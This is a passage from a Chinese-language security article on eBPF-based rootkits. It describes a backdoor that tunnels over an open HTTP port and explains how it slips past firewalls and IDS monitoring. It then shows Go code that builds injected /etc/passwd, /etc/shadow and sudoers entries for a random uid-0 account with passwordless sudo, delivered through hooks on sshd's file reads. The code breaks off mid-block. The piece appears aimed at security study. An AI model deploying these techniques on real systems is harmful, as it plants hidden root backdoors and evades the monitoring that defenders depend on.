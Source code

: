 这样，rootkit的通讯链路并不影响正常用户访问，也没有对原系统做改动，隐蔽性特别好。

### 视频演示

笔者准备了三台主机测试：

1.  入侵者：cnxct-mt2，IP为172.16.71.1。
2.  普通用户：vm-ubuntu，IP为172.16.71.3。
3.  被入侵服务器：vm-server，IP为172.16.71.4。开放nginx web 80端口；开放SSHD 22端口，并设定iptables规则只允许内网IP访问。

### 危害

这个rootkit不主动创建socket，借用其中一个网络发送包，把消息送达给后门使用者。 对系统影响来说，只是一个不起眼的小网络响应。 在万千HTTP包里，根本定位不到。

1.  iptables防火墙绕过 ：利用对外开放的80端口作为通讯隧道；
2.  webIDS绕过：流量到达服务器后，并不传递给nginx；
3.  NIDS绕过：入侵者流量在局域网之间流传并无异常，只是无法解密；
4.  HIDS绕过：是否信任了防火墙，忽略了本机/局域网来源的SSHD登录？

linux系统运行时恶意利用
--------------

云原生生态下，涌现大批基于eBPF技术实现的集群网络管理插件，比如Calico、cilium等。而业务实现网络管理服务是以容器化方式部署，且有需要给这些容器启用SYS\_BPF\_ADMIN权限以支持eBPF系统调用。 这些服务的运行环境，也给攻击者留下一个完美的发挥空间。

### 实现流程

回顾eBPF的hook点，作用在syscall的kprobe、tracepoint事件类型，倘若用在后门rootkit场景，是十分可怕的。比如，修改内核态返回给用户态的数据，拦截阻断用户态行为等为所欲为。而更可怕的是，常见的HIDS都是基于内核态或者用户态做行为监控，这恰恰就绕开了大部分HIDS的监控，且不产生任何日志，简直`细思极恐、不寒而栗`。

#### tracepoint事件类型hook

在SSHD应用中，当用户登录时，会读取/etc/passwd等文件。用户态sshd程序，调用open、read等系统调用，让内核去硬件磁盘上检索数据，再返回数据给sshd进程。

#### 用户态生成payload

用户态实现`/etc/passwd`、`/etc/shadown`等文件payload的生成，并通过eBPF的`RewriteConstants`机制，完成对elf .rodata的字段值替换。

```null
import "github.com/ehids/ebpfmanager"


func (e *MBPFContainerEscape) constantEditor() []manager.ConstantEditor {
    var username = RandString(9)
    var password = RandString(9)
    var s = RandString(8)

    salt := []byte(fmt.Sprintf("$6$%s", s))
    
    c := sha512_crypt.New()
    hash, err := c.Generate([]byte(password), salt)

    var m = map[string]interface{}{}
    res := make([]byte, PAYLOAD_LEN)
    var payload = fmt.Sprintf("%s ALL=(ALL:ALL) NOPASSWD:ALL #", username)
    copy(res, payload)
    m["payload"] = res
    m["payload_len"] = uint32(len(payload))

    
    var payload_passwd = fmt.Sprintf("%s:x:0:0:root:/root:/bin/bash\n", username)
    
    var payload_shadow = fmt.Sprintf("%s:%s:18982:0:99999:7:::\n", username, hash)

    
    var editor = []manager.ConstantEditor{
        {
```